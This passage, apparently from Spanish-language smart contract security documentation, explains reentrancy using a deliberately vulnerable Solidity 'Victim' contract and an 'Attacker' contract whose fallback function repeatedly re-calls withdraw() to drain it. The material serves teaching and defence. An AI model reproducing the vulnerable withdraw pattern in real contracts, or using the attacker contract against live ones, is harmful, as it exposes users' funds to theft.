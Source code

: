 Considere un simple contrato inteligente ("Víctima") que permita a cualquier persona depositar y retirar Ether:

```solidity
// This contract is vulnerable. Do not use in production

contract Victim {
    mapping (address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Este contrato expone una función `withdraw()` para permitir a los usuarios retirar ETH previamente depositados en el contrato. Al procesar un retiro, el contrato realiza las siguientes operaciones:

1. Comprueba el saldo de ETH del usuario
2. Envía fondos a la dirección de llamada
3. Restablece su saldo a 0, evitando retiros adicionales del usuario

La función `withdraw()` en el contrato `Victim` sigue un patrón de "comprobaciones-interacciones-efectos". _comprueba_ si se cumplen las condiciones necesarias para la ejecución (es decir, el usuario tiene un saldo de ETH positivo) y realiza la _interacción_ enviando ETH a la dirección de la persona que llama, antes de aplicar los _efectos_ de la transacción (es decir, reduciendo el saldo del usuario).

Si se llama a `withdraw()` desde una cuenta de propiedad externa (EOA en inglés), la función se ejecuta como se esperaba: `msg.sender.call.value()` y envía ETH a la persona que llama. Sin embargo, si `msg.sender` es una cuenta de contrato inteligente que llama a `withdraw()`, el envío de fondos usando `msg.sender.call.value()` también activará el código almacenado en esa dirección para que se ejecute.

Imagine que este es el código implementado en la dirección del contrato:

```solidity
 contract Attacker {
    function beginAttack() external payable {
        Victim(victim_address).deposit.value(1 ether)();
        Victim(victim_address).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(victim_address).withdraw();
        }
    }
}
```
